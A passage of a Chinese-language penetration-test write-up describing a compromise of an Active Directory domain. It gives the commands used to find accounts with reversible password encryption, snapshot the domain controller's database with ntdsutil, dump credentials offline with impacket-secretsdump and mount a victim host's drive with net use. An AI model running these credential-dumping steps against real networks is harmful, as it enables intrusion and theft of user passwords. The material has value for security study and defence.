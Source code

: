 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4ib7ib959oR9zbx7ZECFiaHErGdoIEIWVicS0yZk7ibwIv8vnJ9e7G4gsVug/640?wx_fmt=png)

可以使用如下命令获取域中设置了可逆加密标志的用户列表：

```
Get-ADUser  -Filter  'useraccountcontrol  -band  128'  -Properties useraccountcontrol  | Format-Table name, samaccountname,useraccountcontrol
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4EOCuplOUR4nYggX65Mt1BAVasiaK3WzMTzkdcUCicMpHE3HD9yqoP7Vg/640?wx_fmt=png)

功夫不负有心人，在又等待了一段时间后，查看到 john 账户在域中再次被使用过，并修改了密码，但并不知道在哪台主机上使用的。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv42PEp8MPm8NDOOZ1SFtB0Ttq6k42ajvfHOLbk51194DUzicYg72zmVKg/640?wx_fmt=png)

这样就直接远程域控，通过提取域快照获取其新密码。

```
ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4lu3wK8rWC1Boc92T3ukPs4dkP5GVUovFzhUXiatCich3cciabRu7HyaGg/640?wx_fmt=png)

提取成功后，下载 SYSTEM 和 ntds.dit 文件到本地进行操作。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4dzPfvwVK8ak8tMwV7Ytib8QlicbYMiaGoibINX9ibwrb5A4iaw3icrxLUwicUg/640?wx_fmt=png)

使用 impacket 中的 secretsdump 提取。

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -outputfile hash.txt LOCAL
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4abMzVkeiaPmUdCpfp42KNnicm2PlPK9JZFNCIads56OIRMKaYTXZGRYA/640?wx_fmt=png)

提取完成后查看提取出的 john 明文密码。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4lDTHoicOHiaral2AxEv6vuSFLXcRgvPzCGjfvmtclb8ibLAFkStecGzLQ/640?wx_fmt=png)

成功提取到 john 明文密码，使用此密码尝试登陆 IT-SUPPORT-JOHN 主机，由于没有开启 3389，所以使用 net use 挂载其 c 盘。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4tHUuz8pyeMmx0icw2japVsRFcoHMDEdHss8GXCErejVrZPeLLSibZAQQ/640?wx_fmt=png)

账号密码可用，成功进入 DGOFFICE 域，到此，对于目标的第一阶段渗透已经完成。下面邀请灵魂画手绘制现阶段的网络拓扑。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55qiar4DsqxBQtTHNQrhIsv4BxxqchzfMKzlxCbV4gvj9eM2ibmicam3xnzlgIwibB0QhftoBtPQuicqOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibtwcMF4fPYGQBA8sQ9EaU0s9oA3Roma7fK7IhibdfSbVecfYTw0VkA7w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)